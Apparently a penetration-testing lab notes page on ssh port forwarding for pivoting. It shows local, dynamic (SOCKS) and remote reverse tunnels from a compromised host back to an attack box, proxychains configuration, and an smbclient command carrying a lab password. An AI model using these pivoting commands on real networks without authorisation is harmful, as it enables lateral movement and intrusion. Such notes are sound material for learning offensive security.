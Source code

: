 ```yaml
---
tags:
  - tool
  - ssh
  - routing
---
```

# ssh

Secure Shell

## Capabilities

### Local Fowarding

```bash
# Connect to 10.4.50.215 and listen on 4455, forwarding to 172.16.50.217:445
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215

# Connect to 10.4.50.215 and listen on 9999, forwarding all traffic (simulating a SOCKS proxy)
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```

### Remote Fowarding (reverse)

```bash
# Connect to our attack box, listen on port 2345, and forward all traffic to 10.4.50.215:5432
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4

# Connect to our attack box, and act as a SOCKS proxy operating on port 9998
ssh -N -R 9998 kali@192.168.118.4
```

`-N` means no shell

- `-L` think local port forwarding
- `-D` think dynamic port forwarding (SOCKS proxy)
- `-R` think remote port forwarding

In the 2nd example

```bash
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```

We are running the `ssh` command on a reverse shell we have already established to `192.168.50.63`. Upon executing the command, `192.168.50.63` essentially becomes a SOCKS proxy for us to send traffic to that will then be forwarded to `10.4.50.215`, and `10.4.50.215` will forward the traffic to its final destination.

We can then use [proxychains](../../../15%20Routing/proxychains.md) to interact with `192.168.50.63` by adding the following to our `/etc/proxychains4.conf`

```bash
# ... At the very bottom of the file, we set the ProxyList to only point to port 9999.
[ProxyList]
socks5 192.168.50.63 9999
```

Now in the following command

```bash
proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```

The request will first be taken by `proxychains` and fowarded to `192.168.50.63:9999` as specified in our `/etc/proxychains4.conf`. The traffic is then tunneled to `10.4.50.215:9999`, where `10.4.50.215` then fowards it to its final destination of `172.16.50.217:445`.